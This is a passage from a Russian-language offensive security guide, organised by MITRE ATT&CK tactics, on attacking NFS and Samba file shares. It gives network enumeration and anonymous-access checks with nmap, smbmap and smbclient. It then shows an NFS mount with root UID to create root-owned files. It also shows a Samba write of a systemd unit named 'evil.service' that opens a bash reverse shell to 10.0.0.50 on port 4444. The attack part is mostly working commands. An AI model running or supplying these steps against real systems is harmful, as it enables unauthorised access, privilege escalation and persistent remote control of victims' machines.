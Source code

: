 **Для Samba:**
```bash
# Поиск Samba-серверов и перечисление ресурсов
nmap -sV --script=smb-enum-shares,smb-os-discovery -p139,445 192.168.1.0/24

# Проверка анонимного доступа
smbmap -H 192.168.1.100 -u "guest" -p "" | grep WRITE

# Проверка версии Samba (уязвимости)
smbclient -L //192.168.1.100 -N | grep "Samba Version"
```

**Пояснения:**  
- `nmap` сканирует сеть на наличие сервисов NFS (порты 111, 2049) и SMB (139, 445)  
- `showmount` показывает экспортированные NFS-директории  
- `smbclient` перечисляет доступные SMB-шары  

---

#### 2. [TA0004] – Privilege Escalation (Повышение привилегий)
> Использование уязвимых настроек для получения привилегий root в Linux.

**Для NFS:**
```bash
# Создание точки монтирования
mkdir -p /mnt/nfs_root

# Монтирование с привилегиями root
mount -t nfs -o vers=3,nolock,proto=tcp,uid=0,gid=0 192.168.1.100:/home /mnt/nfs_root

# Создание тестового файла для проверки прав
touch /mnt/nfs_root/test_file
ls -n /mnt/nfs_root/test_file

# Вывод:
# -rw-r--r-- 1 0 0 0 Jun 15 12:00 test_file  # UID=0 (root)
```

**Для Samba:**
```bash
# Монтирование Samba-шары с правами записи
sudo mount -t cifs -o username=guest,password=,vers=2.0 //192.168.1.100/public /mnt/samba_public

# Создание вредоносного сервиса systemd
cat <<EOF | sudo tee /mnt/samba_public/evil.service
[Unit]
Description=Malicious Service

[Service]
Type=simple
ExecStart=/bin/bash -c "bash -i >& /dev/tcp/10.0.0.50/4444 0>&1"

[Install]
WantedBy=multi-user.target
EOF
```
